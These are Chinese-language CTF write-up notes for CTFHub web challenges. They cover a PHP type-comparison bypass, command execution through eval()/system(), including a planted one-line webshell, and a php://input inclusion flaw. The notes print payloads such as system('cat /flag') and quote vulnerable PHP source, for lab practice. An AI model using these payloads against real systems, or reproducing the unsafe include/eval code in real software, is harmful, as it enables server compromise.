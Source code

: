 这里使用URL编码防止数据失真.

```php
if ($_GET['num']<>""){
            $num = $_GET['num'];
            if( strstr( $num , '2' )) {
                die( "不能等于2喵\n" );
            }
            elseif ( $num <> 2) {
                echo "需要等于2喵\n";
            }
            if($num == 2 ){
                return $this->like->that;
            }
        }
```

使num = 1.9999999999999999999999999999

使数据中既不出现2,在比较大小时也会四舍五入为2

## CTFHUB

### Web

#### RCE

`$_REQUEST` 是一个超全局数组，用于收集来自不同超全局数组的输入数据，包括 `$_GET`、`$_POST` 和 `$_COOKIE`。

eval()函数可以执行任意PHP代码

在PHP中，`system()` 函数用于执行外部程序或命令，并且输出其结果。它不仅执行命令，还将命令的输出直接发送到输出缓冲区。与其他类似的函数（如 `exec()` 和 `shell_exec()`（无回显）}）相比，`system()` 还会在输出后返回命令的最后一行结果。

所以可以发送 `cmd=system("flag_9610");`

#### 文件包含

PHP的 `include`函数可以包含并执行任何文件，而网站当前目录有一个shell.txt,里面有一句护木马.只需要把它包含进去就可以使用shell

`/?file=shell.txt`.

`ctfhub=system("cat /flag");`

#### php://input

```php
<?php
if (isset($_GET['file'])) {
    if ( substr($_GET["file"], 0, 6) === "php://" ) {
        include($_GET["file"]);
    } else {
        echo "Hacker!!!";
    }
} else {
    highlight_file(__FILE__);
}
?>
```
